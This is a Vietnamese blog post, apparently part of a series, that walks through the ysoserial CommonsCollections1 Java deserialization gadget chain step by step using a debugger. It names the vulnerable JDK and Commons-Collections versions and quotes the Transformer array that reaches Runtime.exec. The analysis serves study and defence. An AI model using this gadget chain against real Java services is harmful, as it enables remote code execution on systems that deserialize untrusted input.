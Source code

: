 # CommonsCollections1(CC1)

- Blog này nằm trong series phân tích các payload CommonsCollections trong ysoserial
- Bài đầu tiên này mình sẽ đi phân tích CC1
- Vào source code tạo nên payload CC1 lấy được gadget chain của payload này

```php
ObjectInputStream.readObject()
			AnnotationInvocationHandler.readObject()
				Map(Proxy).entrySet()
					AnnotationInvocationHandler.invoke()
						LazyMap.get()
							ChainedTransformer.transform()
								ConstantTransformer.transform()
								InvokerTransformer.transform()
									Method.invoke()
										Class.getMethod()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.getRuntime()
								InvokerTransformer.transform()
									Method.invoke()
										Runtime.exec()
```

- Payload này hoạt động tốt nhất trên **JDK ≤ 8u70** (tức **trước 8u71**) và phải sử dụng thư viện Commons-colletions-3.1
- Ta thử đặt breakpoint ở hàm exec trong Class Runtime
    
    ![image.png](image.png)
    
- Bây giờ thực thi chương trình với đầu vào là file payload.bin để debug
    
    ![image.png](image%201.png)
    
- Chương trình bắt đầu thực thi hàm readObject() đồng thời một hàm readObject0() cũng được gọi theo, ta thấy stacktraces trỏ tới vị trí này

![image.png](image.png)

- Ở đây ***TC_OBJECT*** được khai báo cùng với các biến khác.

![image.png](image%203.png)

- Sau đó hàm ***readSerialData(obj, desc)*** được được gọi đến, và obj lúc này thuộc ***Class AnnotationInvocationHandler***

![image.png](image%204.png)

- Tại ***readSerialData(obj, desc), invokeReadObject(obj, this)*** được gọi với obj lúc này vẫn là object của class ***AnnotationInvocationHandler*** và this là payload của mình

![image.png](image%205.png)

- Sau đó hàm InvokeReadObject() được gọi. Tại đây biến `readObjectMethod` là một object của class `Method`

![image.png](image%206.png)

![image.png](image%207.png)

- Giá trị của `readObjectMethod` lúc khởi tạo là “readObject”

![image.png](image%208.png)

- Vì `readObjectMethod` là một object của class `Method` sẽ có hàm invoke để trigger hàm `readObject` ở `obj` (`AnnotationInvocationHandler` )

⇒ Ta có thể hiểu rằng `readObjectMethod.invoke(obj, new Object[]{ in });` = `AnnotationInvocationHandler.readObject()`

- Ta có thể thấy lúc này ***this.memberValues*** là 1 `$Proxy0` instance và nó gọi đến entrySet() < = > ***Map(Proxy).entrySet()***

![image.png](image%209.png)

- Hàm ***invoke()*** của ***AnnotationInvocationHandler*** được gọi và ***this.membervalues*** lúc này đã là 1 LazyMap instance → Hàm LazyMap.get() được gọi

![image.png](image%2010.png)

- Tại ***LazyMap.get(),*** dễ dàng pass được điều kiện ***map.containsKey(key)***, chỉ cần key không phải là giá trị null

![image.png](image%2011.png)

- Ta thấy factory ở đây là một object của ***ChainedTransformer*** nên sẽ gọi đến ***ChainedTransformer.transform()***
- iTransformers ở đây có 5 phần tử là do đoạn này payload

```php
final Transformer[] transformers = new Transformer[] {
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[] {
					String.class, Class[].class }, new Object[] {
					"getRuntime", new Class[0] }),
				new InvokerTransformer("invoke", new Class[] {
					Object.class, Object[].class }, new Object[] {
					null, new Object[0] }),
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };
```

![image.png](image%2012.png)

![image.png](image%2013.png)

- Đoạn này hoàn toàn giống với đoạn tôi đã phân tích trong CC5 - tham khảo bên trên
    
    ```php
    ChainedTransformer.transform()
    								ConstantTransformer.transform()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Class.getMethod()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.getRuntime()
    								InvokerTransformer.transform()
    									Method.invoke()
    										Runtime.exec()
    ```
